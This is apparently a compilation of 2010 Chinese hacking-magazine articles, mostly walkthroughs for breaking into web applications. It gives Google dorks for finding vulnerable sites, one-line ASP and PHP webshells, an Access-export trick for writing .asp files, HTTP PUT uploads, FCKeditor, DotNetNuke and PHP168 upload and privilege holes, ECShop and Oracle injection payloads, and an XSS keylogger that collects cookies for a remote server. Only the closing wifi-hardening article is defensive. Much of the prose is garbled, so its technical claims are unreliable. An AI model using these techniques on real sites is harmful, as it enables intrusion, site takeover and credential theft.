网站是 asp+access 写的。先找后台，再试一些常用用户名密码，运气不错直接进去了。看功能后，判断有三种可行方法：

- 1. 数据库报错信息里观察备份名，可关联操作命名文件名。
- 2. 利用 webEditor 相关功能。
- 3. 若上传过滤不足，可通过 access 上传 webshell。

第一种方法尝试后没成功。后来朋友说可利用，就继续从 webEditor 入手。仔细看操作后发现，webEditor 的数据库插入仅做了简单判断。

第二种方法是在站点页面中生成 shell。检查 webEditor 后发现它没有做子目录检查，导致上传时可直接写入各目录。

开始时上传不成功。上传表单有两个字段：filename 和 filepath。最初以为 webEditor 路径固定，后来发现它按相对路径处理。于是设置路径时，将 `upload/filename` 写入数据库。

## 中级｜西线无故事

方法呢？第二种方法在本文不能成事，因为导出 webshell 要知道网站的物理路径，还要逐个执行 SQL 的功能，但也是一个思路，没想到 shell 的时候，为了得到网站的物理路径，仍然找到了两条，希望能通过旁边的物理路径拖出目标站的物理路径。结果旁通两步法只在本地调中行不通，因为旁边有很多。例如有的物理路径都已经暴露了，E:\webhost\...，当时我还觉得这种话的确挺多的，我也完全可以不必注意到。后来倒是成了一个相对较新的方法，叫做 shell 后门，因为有执行 SQL 这个功能的关系，它只针对有了物理路径可以进行的站点来说的这种。旁边的 attack 不是作为纯物理路径的攻击方式了，用这个方法去读 IIS 6.0 的解析漏洞，面对 dnt0web 的场景，只是要讲一下它的思路。

运用表的，具体做法是 HKEY_LOCAL_MACHINE\Software\Microsoft\Jet\4.0\Engines\Text\DisallowExtension 设置成 0，然后执行文本数据导入导出，修改路径中的数据库为 txt, csv, tab, asc, tmp, htm, html 等，从而获取到文件名路径结构中包含的内容。这里执行我们执行句 'SELECT * INTO [luch] IN 'E:\webhost\...\web\www\x.asp' FROM [xxx] EXCEL 4.0' 之类的动作。这样就可以利用 web admin 生成一个最终后门，使用到的是 asp 站点的一个路径。编辑点评：asp 文件的特征，比如 'web admin' 之类。

## WRMPS 系统后台拿 webshell

说起过程，思路是最重要的。拿点实为做东西吧，拿别人工具就看你一毛无效。什么都拿不动。中了一个后台，打开连接接着看到了 WRMPS6.4。发现是，先进去再说。找了一个不图标，去软件生成密码也可能是 md5 格式。实战中 mdb 也可能，采用的是目录不行。在数据库根目录下后再找到正常的 txt 内容后续的改写，结果看见原先配置了小于 0.5 的，也就是个系统漏写的处理。终于拿到了小工具开枪。

发现整个过程都很清楚，似乎有一定的逻辑。可以用目录路径提交，路径中需要换行。对某些情况下，某些表名的定义会跟着变化，比如文件后台，编辑器中可执行的页面会写入多个子目录。这里我们可以看到一段完整的代码：'execute request("a")'。这种方式并不复杂，只要是能写入的路径，它就能生成一个 webshell。另一个比较常见的方法是把它写成 asp 的格式，放到文本里。

编辑点评：access 导出的错误和 webshell 不能直接运行，是因为它没有正确的执行权限；如果要绕过这个限制，必须通过某些参数把它变成能够在服务器端执行的脚本。这里给出的示例是先把内容写入一个 txt，然后再通过某种方式使其变成 asp；如果是 xml 方式，也要根据实际路径进行调整。总之，这里强调的是一个利用数据库写入 webshell 的思路。

- 1. 在某些情况下，目录名需要自定义后缀。
- 2. 在数据库里，对应表结构需要改成适配的格式。
- 3. 在服务器上，路径名和文件名必须和后缀对应。
- 4. 若能写入 execute request("a") 这样的语句，就可能生成 webshell。
- 5. 最后把生成的内容保存为一个能被执行的脚本文件。

## 浅谈 Http Put 方法的利用

前几天发现比较喜欢某个论坛在主页上挂了美化版的广告形式的漏洞，随手便利用测试进行了抓抓，发现 webdav 站点存在 Http put 方法上传漏洞，这应该可以被配合注释，删除旧目录文件等。下面就和大家分享一下这种诱人的系统。首先给大家推荐一个小工具，天网网络的小王子。

大哥写的 WebDavScanner，扫描后发现如图 1 所示。在扫描浏览完成之后，发现该站点存在 “Http Put 方法站点漏洞”。该漏洞可能会在 Web 服务器上运行某些上传命令，这意味着极有可能会在 Web 服务中留下某些上传操作，修改或删除 Web 页面、脚本和文本文件。


#### 二次黑盒 Code Injection

入手其他可提供新描述功能的方法。主要的方法包括如图2所示。下面，我们开始提交信息，就是我们telnet到网站的80端口，输入提交信息等。也是在我们telnet的时候只是输入一行信息就自动退出了，那么有个什么好的办法呢？这里我们利用网络编程学习和NC。打开cmd窗口，输入：nc www.xxx.com 80。然后向输入请求的数据信息输出像页面输入提交，这里注意提交信息中需要几个分隔符，PUT 之后填写名称，PUT 之后填写名称。再根据HTTP/1.0、Content-Length、Accept、Accept-Language、User-Agent等请求头信息构造请求。


上传详细过程如图3所示。Nohack.txt上传成功，如图4所示。在图3的基础上，请大家填写4步处理的返回状态为“201 Created”，意思就是使用HTTP PUT方法将文件上传到服务器成功。该网站经过测试可以支持超过了域名后缀为asp、asa等类型的上传，允许html和txt文件上传。上传路径可以是任意的目录，不可对后缀进行限制。在这里考虑到已经存在的html和txt可以被替换，由于该网站的主页是.html的，所以可以按照页面的配置，将主页改为可执行脚本的定义文件，html文件不支持以php扩展名。下面是对PWS代码的请求，根据要求修改。在本次渗透主要是因为IIS管理员设置网站目录需要写权限，这里需要在管理员里控制目录设置“写”权限，还需要在开启目录的权限设置中，添加IIS USER（Internet匿名访问用户）账号。


修补建议：重新配置Web服务器来拒绝HTTP“PUT”请求（所有目录），或将PUT方法限制于受信任的用户。（webdav扫描已比在本机先走）编辑器：手工入侵的一个技巧是利用程序实例的后缀进行上传，生成具有我们也称为move吧?把上传的txt文本和move成asp、asp等后缀漏洞的入口不允许上传asp的页面可被伪造，实现检测。

潘海龙于2013年6月发现该类型漏洞。http://xxx.fl.us/gis/reports/output.php?id=ImpactFeesReport&month=all&year=all&fee_type=transfer&status=reserved，页面触发了一个 Code Injection 漏洞，该漏洞的原因是变量在输出到页面前未过滤，插入到了 eval() 函数中。eval 是可以执行 PHP 代码的，函数内容由用户输入决定。文中以“Class”被放大到页面的实例演示，通过构造参数让系统执行命令。PHP 中的 $phpinfo() 和 system() 等函数可被利用，执行系统命令并回显字符串。


漏洞利用不一定有参数报错信息，“Missing argument 1 for ImpactFeesReport::ImpactFeesReport()”这一警告说明程序调用了 ImpactFeesReport 里面的初始化代码，可以借此触发更多的错误信息。发现错误提示中还有“Call to a member function select() on a non-object”之类错误，说明相关对象未正确初始化，属于典型的 PHP 对象调用问题。此时可继续构造对应的参数，借由“eval() code on line 1”之类提示判断执行成功与否。

我们还可以执行系统命令，执行后的结果以字符串返回。

## 中级 | 西线无故事

2010 第二季

图 6

## 跟我一起拿国外 webshell

### —— Dotnetnuke 远程文件上传漏洞

团徒良 [N.S.T]

关于 Dotnetnuke 大家可以搜索一下，网上说它是一个免费、开源、可扩展、具完善的内容管理系统。可广泛应用于商务、企业内网（Intranet）和外网、在线内容发布网站。Dotnetnuke 是建立在微软 ASP.NET 平台之上的一套 Web 应用程序。

我个人感觉它的确也很不错，但是开源程序的漏洞总是免不了的。而且，国外大站总是墙内的 CMS，搞成了没呢？今天大家要探讨的漏洞便在于此。

Dotnetnuke 这款程序在国外是很流行的，在国内用的也比较多，我们可以利用 Google hack 来获得使用该款程序所架设的网站。Google hack 语句：

```
allinurl: /dnn/0?Default.aspx?i=;
allinurl: portals/ (例 2)
allinurl: Providers/HtmlEditorProviders/Fck/Fcklinkgallery.aspx (例 3)
```


图 1


图 4


图 2


图 5

漏洞出现在 Providers/HtmlEditorProviders/Fck/Fcklinkgallery.aspx（图 4）这个文件里面，点击第二个单选框 “Datoteka (datoteka na odredištu)”，中文意思是“文件(一个在你的网站上的文件)”，返回如图 5 的页面。

然后在测试点当前页面的地址栏里面输入：

`javascript:__doPostBack('ctlURL&SumdUpload','')`并

图 3

162  nohack.me

#### EcShop_V2.7.2 注射漏洞解析

从本文可以学到：
- 1. ECShop 漏洞分析
- 2. 漏洞的后期利用

分析这个漏洞其实蛮诡异的，我开始并不知道，是 LoveAngel 告诉我的，才研究了 pureC（大牛的 EXP，他只给了 EXP，没看代码，这篇文章是我在 EXP 之上推出出来的，当然会暴露这的实际细节。

### 0x01 解析漏洞前的准备

大家知道，在 php.ini 中，有一个 magic_quotes_gpc 选项，当它为 on 时，`'`、`"`、NULL 四个操作符将被转义；当我们向表单提交数组变量时，数组里的值也会被转义。PHP 内部会自动调用 addslashes() 函数。例如下图，PHP 网站配置语句已经将 addslashes() 写入，此外大部分自定义函数如下的代码：

```
php
function addslashes($string, $force = 0)
{
    if (!defined('MAGIC_QUOTES_GPC') && !defined('MAGIC_QUOTES_GPC')) {
        define('MAGIC_QUOTES_GPC', ...);
    }
    if (MAGIC_QUOTES_GPC) {
        if (is_array($string)) {
            foreach($string as $key => $val) {
                $string[$key] = addslashes($val, $force);
            }
        } else {
            $string = addslashes($string);
        }
    }
}

```

### 0x02 初识 ECShop 的注入

正如上面我们讲的，ECShop 正好放于在某个 KEY 被模拟框导致安全性大大下降。漏洞体现在根目录下的 search.php、search.php 调用两个参数文件，我们先看它会包装执行 addslashes() 的代码：

```
php
function addslashes_deep($value)
{
    if (empty($value)) {
        return $value;
    } else {
        return is_array($value) ? array_map('addslashes_deep', $value) : addslashes($value);
    }
}

```

## 中级｜新洞练练看

2010 第二季

### 0x03 由漏洞到EXP

问题出在于 EXP，不迭代的 EXP 不是本地的，需要安装 PHP 环境，而且无论是 loootkeeper 函数，在学习的时候，我写了一份自洽的 EXP，转换成网页的，以期利用 curl 或者 socket 发送，增加了一些方便的连接，例如 3。

```

String = unserialize(String);
// 其他处理
$sql = "SELECT goods_id, COUNT(*) AS num FROM `...` WHERE goods_id in (...)";


```


### 0x04 温故而知新

为什么要加这一段呢？我在实例中，发现 2.6.2 的系统仍然有很多地方，2.6.2 的 EXP 也仍然有效，某些 2.6.2 的漏洞也是已没有过渡安全的；对于数据库的文件用到了 pick_out.php。

```

$url='http://'.$_REQUEST['a'].'/search.php?encode='.$cmd;
$curl_init($url);
$curl_setopt($cu, CURLOPT_URL, $url);
$curl_setopt($cu, CURLOPT_RETURNTRANSFER, 2);
$data=curl_exec($cu);
curl_close($cu);


```


### 0x05 简单小结

通过本文希望大家学到：数据的 Key 的过滤，是有必要的；最后还是要感谢 puret、大牛，没有你们的关注，我就没有现在的进步。其实研究 EXP 也是在写单词，锻炼了大家对不同情况有时的判断。

#### 百度跨站利用

从本文可以学到：
- 1. 百度跨站的代码解答
- 2. 实际利用过程

这个跨站是 2 月大牛发现的，我说一下大牛的利用过程和一些实现时的特征。下边进入重点的实现思路，在跨站的栏目中的运用远程服务器上的 js.txt 放在客户浏览器执行，记录客户端输入的信息，之后传回到服务器 record.txt 文件里，要用到两门文件：xss.php 中文件和 js.txt 文件。

```

var key;
var keys = '';
var lark = '...';
var Domian = document.domain;
var Cookie = document.cookie;

document.onkeypress = function() {
  get = window.event;
  key = get.keyCode ? get.keyCode : get.charCode;
  switch(key) {
    case 32: key = '[Space]'; break;
    case 13: key = '[Enter]'; break;
    default: key = String.fromCharCode(key);
  }
  keys += key;
}


```

```

SendData['hacker' + ':' + Cookie];
document.onmousedown = function() {
  get = window.event;
  var mouskey = get.button;
  switch(mouskey) {
    case 1: mouskey = '[Left Mouse Clik]'; break;
    case 2: mouskey = '[Right Mouse Clik]'; break;
    case 4: mouskey = '[Roll Mouse Clik]'; break;
    default: mouskey = '[Unknown Mouse Key]';
  }
  keys += mouskey;
}


```


## 风渡网上购物系统漏洞分析和利用

本文可以学习到：风渡网上购物系统的漏洞分析过程和利用方法。

风渡网上购物系统是一套完全免费的商城系统，在对它进行分析的过程中，发现了一些问题和漏洞。本文将对这个系统进行分析和利用。

### 漏洞 1：数据库路径泄漏漏洞

在风渡的根目录下，有一个 serverinfo.txt 文件，打开这个文件，让我大吃一惊，它竟然把数据库密码直接保存了进去，如图 1，这样我自然就可以根据这个文件的内容去分析了。

### 漏洞 2：news.asp 文件注入漏洞

继续进行分析，当看到 news.asp 的时候，发现有一个明显的注入漏洞出现在眼前，如图 2。下面我来看看下面数据到底做了什么。下面在 db.asp 这个文件中，由图 3 可以知道可能不是做防注入，但是我只会经常去拿这个文件来查看。

### 漏洞 3：后台上传得 Shell

进入了后台，看见自己超级管理员，木然这点 Shell 其实是手到擒来。发现到多个后台上传文件的路径，下面的就是我整个分析过程。后台上传的过程使用了两种方法，一种是 webeeditor，一种是自己做的上传。由于 weblogeditor 不是完整的，并且我就选择最后的上传了方法。果然在登录后台之后，在系统配置中心，里面有个上传 LOGO，我就把这个上传了上去，后台就找到了。

在后台系统配置中心后，网站有个上传 LOGO，我对这个进行分析，点击后发现如下页面，如图 5。

直接上传一个 ASP 木马，很明显，后来对于页面进行分析，发现页面页面对应的是 fd_upload 目录下的 upload.asp，如图 6。

在图 6 中我已经进行分析，uploadFile() 已经修改，接下来我就把 shell 写入到了此上传页面的 upload.asp 中。打开页面即可访问，结果如图 7，把上传上去页面的源码保存为 upload.htm，然后通过写入 shell.asp，改成 shell.asp。

## 中级｜新洞练练看

### 2010 第二季

图8 上传页面。点击上传后，得到如下结果，如图9。刚开始时以为是输入错误，查看 shell.asp 这个文件，发现上传过程被写入到了文件中，导致脚本内容被修改。进一步分析后，发现是由于上传路径与 ASP 执行环境的处理方式有关。


```asp
set upload=new upload_file
if upload.form("act")="uploadfile" then
  response.write("<span style=""font-family: 宋体; font-size: 9pt"">初始化组件错误！</span>")
end if
upload_filepath=trim(upload.form("filepath"))
uploadpath=createactive(upload_filepath)
' 以下略
```


```text
txts=t, upload.asp
选择文件: [     ] 浏览...
开始上传
```

```asp
D:
<%@LANGUAGE="VBSCRIPT" CODEPAGE="936"%>
<%
... shell.asp ...
%>
```


运行成功后，打开 1.html，出现如图13 的错误，不要紧，mmmmmm.asp 这个文件已经建立成功了。打开 upload.html，路径改为 /mmmmmm.asp，然后把大马改成 shell.gif，上传上去，最后查看源代码，就可以看到 Shell 运行成功，如图14。


### 写在最后

总的来说这个系统安全性还是很差，并且不止这个系统，很多免费的整站系统都或多或少存在漏洞。因此，我们一直不必惊讶一个系统存在漏洞。一个系统是否有漏洞，还是需要看站点维护人员的安全意识。


## 对 Gshop 最新版的漏洞分析

dark[svust]

从本文您可以学到：

- 如何查找和分析 Cookie 注入点

### 漏洞1 防注入缺陷

上面我已经说到 config.asp 里防注入系统，那么看看这个系统是否有漏洞。一般的过滤方法，应该会对特殊字符进行过滤，不过这个系统很多地方也没有做好。其处理方式存在缺陷，导致注入点较多。


```vb
If Request.Form<>"" Then StopInjection(Request.Form)
If Request.QueryString<>"" Then StopInjection(Request.QueryString)
If Request.Cookies<>"" Then StopInjection(Request.Cookies)

Function StopInjection(values)
    For Each i_Get In values
        Dim i_Set, i_Get2
        For Each j_Get In values
            j_Get = values(j_Get)
            Set regx = New RegExp
            regx.IgnoreCase = True
            regx.Global = True
            regx.Pattern = "select|and|insert|delete|update|count|master|exec|char|chr|declare|script|execute|request"
            If regx.Test(i_Get) Then
                response.Write("防注入代码")
                response.End
            End If
        Next
    Next
End Function
```

```asp
<!--#include file="Config.asp"-->
<!--#include file="ConnDB.asp"-->

orderid=request("orderid")
totalmoney=request("totalmoney")
typeid=request("typeid")
if typeid<>"" then
    if typeid="none" then
        response.write "请选择…"
    end if
end if

if isobject(conn) then
    set rs=server.createobject("ADODB.Recordset")
    sql="select * from [Customer] where 1=1"
    if request("typeid")<>"" then
        sql=sql & " and id=" & typeid
    end if
    rs.open sql,conn,1,1
end if
```

### 漏洞2 注入漏洞

前面说到，对这系统可以使用 Cookie 注入，我在系统中查找使用 request() 方式获取变量信息，这一段时间内查找，在 pay.asp 这个文件中发现了漏洞，如图4。


直接点下面的“一分钟”。打开 WSockExpert，找到这个页面进行监听，再回到 JavaScript Cookie 这个页面点击“写入”这个按钮写入 Cookie，这样就把注入代码写入到 Cookie 中了。然后回到 http://127.0.0.1/pay.asp 点击刷新，Cookie 注入就完成了，这时候页面跳转到另外一种方式了，如图7。


### 漏洞3 后台上传漏洞

有分析代码了。后来在 operhrefiles.asp 这个文件中发现了漏洞，如图9。代码中发现一个变量可以写入，下面我就利用这个漏洞写入一句话木马。


## 中级｜新闻练练看

### 2010 第二季


直接访问 http://127.0.0.1/picture/hmm.asp;.gif，访问成功，如图12。

### 后记

这个系统在知道漏洞后进行了更新，这点还是值得肯定的。不过在更新的过程中却忽略了其他一些问题，比如……


#### “买”出来的 PHP168 0day

从本文中可以学到：PHP168 整站系统漏洞利用。

在 fanker 的百度空间上看到 PHP168 整站系统的部分版本出了漏洞，普通用户可以“买”到超级管理员权限，进而进入后台拿 webshell。我还是第一次见到通过购买获得管理员权限的程序漏洞，觉得比较有意思，就把这篇文章拿出来给广大朋友们。

### 一、0day 分析


PHP168 CMS 是 PHP 站长中当前比较有名气的一款开源系统，全局采用“核心 + 模块 + 插件”模式，代码全部开源，可以方便地进行二次开发，所有功能模块可以由其他专题引擎、个人用户完全免费使用。用 PHP168 CMS 的人似乎很多，在百度中搜索 Powered by PHP168 有 809,000 条结果，在 Google 中的搜索结果为 763,000 条。


### 二、0day 利用

简单分析了这个漏洞，下面来看看利用这个漏洞的具体过程。先通过在 Google 中搜索“Powered by PHP168 V6.01 2003-08”找到了一个存在漏洞的网站 http://xxx.cn，点网站首页上的注册按钮……

168 nohack.me


注册了一个名为 test2010、密码为 123456 的用户，注册成功后成为助理，点“会员中心”后发现自己的用户级别为普通会员，如图2。


进入“会员中心”，发现用户级别果然已经是超级管理员了，如图5。

“有了超级管理员权限就进去了，哈哈。PHP168 CMS 默认的管理员后台目录为 admin，直接访问 http://xxx.cn/admin/ 就出现了后台登录页面，利用用户 test2010、密码 123456 进入了后台，如图6。”

进入了后台，拿 webshell 就比较简单了。点“系统设置”菜单，然后点“核心设置”下的“网站全局参数设置”，在允许会员上传文件的类型中添加允许上传的文件后缀：如果网站服务器是 Apache 就添加 php3；如果网站服务器是 IIS，除了可以添加 php3 后缀外，还可以试试 .cer 后缀。我这里添加了一个 .php3 后缀，如图7。


点“保存设置”后，进入“功能中心”菜单，再点“其它功能”下的“附件管理”，打开附件管理页面，并且在这里可以直接上传附件，如图8。

把 PHP 一句话木马保存到 php.php3 文件中直接上传，上传后保存地址为：http://xxx.cn/upload_files/other/75_2010060140553_cGhw.php3，成功得到了 webshell，如图10。


登录后台时即出现如图1的提示，导致不能进入后台。经过测试，后台有很大一部分版本可以购买到超级管理员权限并进入后台，拿 webshell 还是很简单的。搜索“Powered by PHP168 V6.01”“Powered by PHP168 V6.02”等可以找到可能存在这个漏洞的网站。另外，在后台不能在允许会员上传文件的类型栏中直接添加 .php、.asp 等后缀，上传时会出现“系统不允许上传可执行文件，上传失败”的错误提示。本文设定不依赖此限制，朋友们就当作漏洞案例收集进自己的漏洞库好了。

### 三、再唠叨一点

PHP168 CMS 提供的购买会员等级功能估计是为了鼓励用户多多交流，但在处理购买逻辑时不当，从而可能危及整个网站安全。这个漏洞看似“小问题”，却可能直接导致 webshell 风险。打了补丁的“最新版本”在购买超级管理员时会出现“系统级别，你不能购买！”的错误提示，但仍有不少站点存在可利用版本，实战中还可能造成数据异常或权限错乱。


天分和能力，绝对不止于此，最终拿到了 webshell。小漏洞引发大隐患，值得深思。


#### Oracle 注入案例演示

### 基础知识

Oracle 在这里毕竟是“神秘”的意思，是关系型数据库中的佼佼者，经常和 JSP、PHP 脚本搭配，是大型网站维护的重要数据库。在 Oracle 中存在很多系统表，和注入有关的是 user_tables、user_tab_columns。需要注意的是，Oracle 数据库中大小写敏感；另外一些字段列较小时，在查询时可能更容易完整回显数据。

### 一、手工注入

1、和通常程序一样，先检测注入点：`' and 1=1`、`and 1=2`，如图1。注意报错关键字：ORA-01xxx，这是 Oracle 数据库的标志。


2、Order by 判断字段数，`order by 12` 时返回正常，确定注入点的字段有12个。由于 Oracle 不自动匹配字段数据类型，先用 Null 代替，再逐个确定字段的数据类型，最后可用：

```sql
union select 1,'2','3','4','5','6','7','8','9','10','11',12 from dual--
```

3、爆表数量字段。当前无需爆库，因为默认在当前库中。

```sql
union select 1,'2','3','4',
'5',count(table_name),1,'0',
'7',null,'1','1','12' from user_tables where rownum=1--
```

在“5”处返回 28，共 28 个表。

开始爆表名：

```sql
union select 1,'2','3','4',
'5',table_name,1,'1','0',
'7',null,'1','1','12' from user_tables where rownum=1--
```

170 nohack.me

## 露珠 CMS 漏洞分析和利用

从本文可以学习：

- 露珠 CMS 漏洞分析
- 漏洞在实际中的利用

### 防注入过滤不严格的问题

在 con.asp 中包含了防注入，我们先看图1。从图1可以清楚地看到，这个文件只对 Request.QueryString 方式提交的数据进行了过滤，也就是说只过滤 GET 方式提交的数据。虽然这边数据库调用很多，但是对于 POST 和 Cookie 提交的数据就没法过滤，因此我们可以直接提交 Request.Form 和 Request.Cookies 之类的方式进行利用。

除了 con.asp 里的防注入，程序中的 chkFormOrSQL 函数也有防注入，这个函数在 luzhuba.asp 里定义，如图2。这里可以看出这个函数对于字符型注入还是有过滤作用的，不过问题是对于数字型注入就没有办法了。

大致分析了这个网站的防注入后，开始寻找漏洞。这个 CMS 很小，但是功能却不少。它是怎么做到的呢？当我打开 admin.asp 的时候，我就明白了：原来是把所有代码都写在几个 ASP 文件中。当我看到 admin.asp 总共 7000 多行代码的时候，吓了一跳，这么多行代码，分析起来确实费劲。


### admin_login.asp 文件注入问题

前面我们说过 admin.asp 过滤不严这个问题，我就去查找 Request.Form 这个方法的使用位置，后来终于在 admin_login.asp 发现了漏洞，下图是分析，如图3。


这里的代码在处理时没有经过完整过滤，输入如 `[email protected]` 这类构造内容，就可能进入 if/or 逻辑判断，导致校验被绕过。由于 password 和 name 分离处理，注入条件可能被错误满足。验证码逻辑也没有起到应有作用，和登录判断基本无关。

这里有两种思路：

- 一是使用 Cookie 欺骗。admin.asp 使用 Cookie 方式登录，可以在提交时伪造用户名或密码对应的 Cookie，进而获取管理员控制权限。
- 二是利用 shell 工具辅助构造请求。


例如后台里默认口令相关信息拿到后再注册，按 IE 正常登录流程，随后值会被写入。不同点只在 POST 数据，我们可以通过 WSockExpert 截获并重放关键数据包，把构造参数送入目标地址。具体步骤如下：先设置一个 Cookie 名称，再把其值按构造地址需要的参数写入即可。


先设置好所有 Cookie 值，写入后程序就会自动完成流程；如果不成功，就再排查相关页面地址。再看 if 里的逻辑，可以发现对应 Cookie 值已经写入。若不清楚，建议重新进入流程再验证一次。


进入后台后发现功能很多，这就为我们做更深一步研究提供了平台。再看它的 shell 功能点，既然可以执行命令，就可以进一步利用到数据库相关的 shell.asp。这里的说明不再重复。


### 后记

这个系统还是很有特色的。

不过由于代码集中在几个文件中，对于漏洞防范思路有的缺陷。我觉得如果这个系统在防止注入方面加强一些，还是可以做到既安全又小巧的。

（《文章原始 CMS 源码，WsockExpert 的使用，请看图解》）

编辑点评：意外 CMS 漏洞在苏北手上成了漏洞利用的“利器”，本文的精彩之处在于其工具 WsockExpert 的使用。

## aspx 版 fckeditor 上传漏洞利用

从本文可以学到：

- aspx 版 fckeditor 上传漏洞利用

看了黑客手册以前的一篇文章《菜鸟玩远程包含漏洞》，在这篇文章中，小菜就带我们来探讨利用已知漏洞进行远程包含漏洞入侵的整个过程。今天，我也来给大家讲讲自己的入侵经历。

而如果这样输入：

`http://www.xxx.com/admin/FCKeditor/editor/filemanager/browser/default/browser.html?Type=/connector/connectors/aspx/connector.aspx`

就可以得到网站根目录下支持的脚本类型，传对应脚本的马就可以了。


### 一、寻找漏洞目标

Google 里面搜索：`inurl:/Connector=connectors/aspx/connector.aspx`，这样可以搜索出 ASPX 版本的 fckeditor。初步了解后，如果再搜索 `inurl:/FCKeditor/editor/filemanager/browser/default/browser.html?`，有的是 ASP 版本，有的是 PHP 版本，还得一个一个挑选，很麻烦。

图 2 上传对话框


### 二、利用方法

在 FCKeditor—Resources Browser 页面中，大多数都能利用这种上传方式，利用方法如下：

直接打开网址，在后面加上 `FCKeditor/editor/filemanager/browser/default/browser.html?Type=all&Connector=connectors/aspx/connector.aspx`，就会出现一个上传对话框，如图 2 所示。

直接浏览并上传即可，格式可上传 ASPX，上传完成后点击图片，会出现 SHELL 地址，直接在浏览器访问即可，如图 3 所示。


前几天，牛人们公布了 Aspx 版 fckeditor 上传漏洞，具体信息如下：Aspx 版 fckeditor 出现上传漏洞的地址是：

`http://www.xxx.com/admin/FCKeditor/editor/filemanager/browser/default/browser.html?Type=...`

打开这个地址就可以上传任何类型的文件了，写入上传到的位置是：

`http://www.xxx.com/UserFiles/all/1.aspx`

“Type=all”这个变量也是自定义的，在这里创建了可上传目录，而且新目录没有上传文件格式限制。

比如输入：

`http://www.xxx.com/admin/FCKeditor/editor/filemanager/browser/default/browser.html?Type=money&Connector=connectors/aspx/connector.aspx`

所传文件就到了 `http://www.xxx.com/UserFiles/money/` 目录下。

## 三、三拳两脚轻松防御“蹭网族”的黑手

随着最近几年无线网络普及条件逐渐成熟，无线网络终于在千家万户中广受欢迎。自然，无线网络也被越来越多用户使用。很多没有采用加密或者使用较弱加密方式的无线网络暴露在风险中。“蹭网”这一非法现象的泛滥，也逐渐影响部分用户心理，开始有了“无所谓”“共享”的错误观念，自然也催生了“蹭网族”。

破解或猜测无线网络密码，不仅可能使电信运营商用户网络被恶意共享，也会导致流量和终端被滥用。更严重的是，通过无线攻击收集到的账号、邮件等信息也可能被获取。

在中小型网络环境中，普通无线网络管理中，常见做法是开启 SSID 广播；即使 SSID 隐藏，无线网卡连接后仍可显示已连接网络。用户可以在无线网络配置界面设置“首选网络”，并通过无线网络配置将其设为优先连接对象。


### 1、家庭用户的选择

### 1.1 修改默认的 SSID

在讨论 SSID 之前，先来了解一下什么是 SSID 以及 AP。

无线小词典：SSID（服务集标识符）用于区分无线网络名称。AP（Access Point）即无线接入点，是无线终端设备连接无线网络的中继设备。

由于 SSID 参数通常有默认值，虽然对联网用户影响不大，但为了避免冲突，建议不要使用过于常见的 SSID 名称，而应使用容易记忆、识别度高的名称。

- 不要使用公共或热门名称作为 SSID，例如“TP-LINK”“CiscoWLAN”等；
- 不要使用默认或系统建议名称；
- 不要使用容易被他人识别个人信息的内容。

### 1.2 禁止 SSID 广播

除了修改默认 SSID 之外，还可以把默认广播的 SSID 设置为隐藏。

### 1.3 MAC 地址过滤

这种方式是通过 AP 设置，将指定无线网卡物理地址加入允许列表。AP 收到数据包后，只有符合设定标准的才会被转发，否则丢弃；目前市面上大部分 AP 都支持 MAC 地址过滤。

图 4 为 D-Link 无线路由器进行 MAC 地址过滤的设置，过滤表分为白名单和黑名单两种方式：白名单仅允许指定 MAC 地址访问网络；黑名单则阻止指定 MAC 地址接入。

### 1.4 WPA 或 WEP

由于 WPA 使用了 802.11i 中增加的 TKIP（Temporal Key Integrity Protocol），其安全性高于 WEP。

### 1.5 设置复杂的 WPA/WPA2 密码

很多家庭用户对 WPA/WPA2 有认识误区，认为只要用了加密就不用担心攻击。实际上，虽然 WPA/WPA2 安全性较高，仍然建议设置高强度密码。

“高级无线设置”页面中，如图 8 所示，默认存在“TX Power”选项，默认值为 28（即发射功率 28mW）。如果用户觉得覆盖范围过大，可以调整为更小值（如 15mW），缩小无线覆盖范围，降低被“邻居”搜索到的风险。

第二种方式是更换低增益或更强方向性的天线。对于某些无线路由器（如 D-Link），可通过更换天线来改变信号发射方向，使电波主要覆盖局部数十米区域。


密码测试工具——Microsoft Password Checker，支持在线检测密码复杂度，网址如下：

http://www.microsoft.com/protect/yourself/password/checker.mspx

打开后，在 Password 栏输入密码即可看到强度。分为 Weak（弱）、Medium（中）、Strong（强）、BEST（最好）四级，并用不同颜色标识（见图 7）。Microsoft 对密码安全性的定义大致如下：

1. 任意 4 个字符组合：Weak；
2. 仅字母组合：Weak；
3. 字母与数字组合：Medium；
4. 14 位以上，三类或四类字符混合：Strong；
5. 更高复杂度且组合合理：BEST。

| 主要无线产品的官方网站 | 网址 |
| --- | --- |
| Linksys | www.linksys.com/cn/ |
| TP-Link | www.tp-link.com/cn/ |
| D-Link | www.dlink.com.cn |
| Buffalo | www.buffalo-china.com |
| Netgear | www.netgear-china.com |
| ASUS | www.asus.com.cn |
| BELKIN | www.belkin.com.cn |

图 6 使用了较简单单词作为密码，所以显示为 Weak；图 7 则加入大小写字母和特殊符号并达到 14 位长度，因此显示为 BEST（最好）。

对于大多数网络管理员及办公用户，乃至安全意识较弱的家庭用户，都应将账号、电子邮件、办公文档及个人资料密码设置得尽可能复杂。例如不少于 8 位，至少包含数字、字母和符号中的两类以上。密码强度不应低于安全评估要求，建议至少达到 Strong，管理员账号应尽量达到 BEST。不同账户使用不同密码，并在服务器端配置登录限制策略。


### 1.7 升级硬件设备

通常较新的硬件设备安全性更好，因为厂商会修复已知漏洞。对于旧设备，应及时通过固件更新安装补丁。购买设备时应关注厂商安全更新、升级信息及漏洞公告，以便及时修复风险。

### 1.8 Telnet/SSH

某些设备支持远程管理，常用 Telnet 登录配置。但 Telnet 明文传输，仅适合内网。若使用 SSH，可加密通信，常见 SSH 客户端有 PuTTY、SecureCRT 等，如图 11 所示为 PuTTY 界面。

### 2. 企业 WLAN 安全

### 1.6 降低无线风险

主要有两种方式：

- 降低 AP 发射功率。部分路由器在高级固件（如 DD-WRT）中可调发射功率，降低后可有效缩小覆盖范围，例如仅覆盖办公室区域。
- 改变天线增益，例如使用定向天线。

| 符合企业环境的无线安全方案 |
| --- |
| 1. 使用 WPA2 |
| 2. 采用 802.1x 体系 |
| 3. 使用 EAP、RADIUS 认证 |
| 4. 采用 MDS、服务器端认证 |
| 5. 使用 PSK 或企业级认证 |


1. 使用 WPA2

WPA2 与 WPA 兼容，同时支持更高级的 AES 加密，能更好提升无线网络安全性。若设备支持，应将加密方式设置为 WPA2，如图 12 所示，在“安全方式”中设为 WPA2-PSK。

2. 采用 802.1x 体系

